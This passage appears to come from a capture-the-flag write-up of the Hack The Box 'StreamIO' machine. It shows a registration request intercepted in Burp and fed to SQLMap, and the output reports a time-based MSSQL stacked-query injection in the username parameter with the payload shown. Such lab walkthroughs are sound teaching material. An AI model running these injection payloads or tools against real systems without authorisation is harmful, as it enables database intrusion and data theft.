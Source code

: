 It doesn't work though, even if you click on the register button and enter details. It says the account is created but you can't login with it.

Let's intercept with Burp and have a look:

![streamio-saveitem](/assets/images/2022-06-26-22-29-48.png)

## SQLMap

Nothing of interest so i've right clicked and selected Save Item from the menu. Save the file, and switch to terminal to use it with SQLMap:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# sqlmap -r streamio.req
        ___
       __H__                 
 ___ ___[)]_____ ___ ___  {1.6.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|___|
      |_|V...       |_|   https://sqlmap.org
[*] starting @ 22:33:24 /2022-06-26/

[22:33:24] [INFO] parsing HTTP request from 'streamio.req'
[22:33:27] [INFO] testing connection to the target URL
[22:33:28] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:33:28] [INFO] testing if the target URL content is stable
[22:33:29] [INFO] target URL content is stable
<SNIP>
sqlmap identified the following injection point(s) with a total of 64 HTTP(s) requests:
---
Parameter: username (POST)
    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: username=pencer';WAITFOR DELAY '0:0:5'--&password=pencer
---
[22:34:32] [INFO] testing Microsoft SQL Server
[22:34:32] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[22:34:42] [INFO] confirming Microsoft SQL Server DBMS delay responses (option '--time-sec')? [Y/n] 
```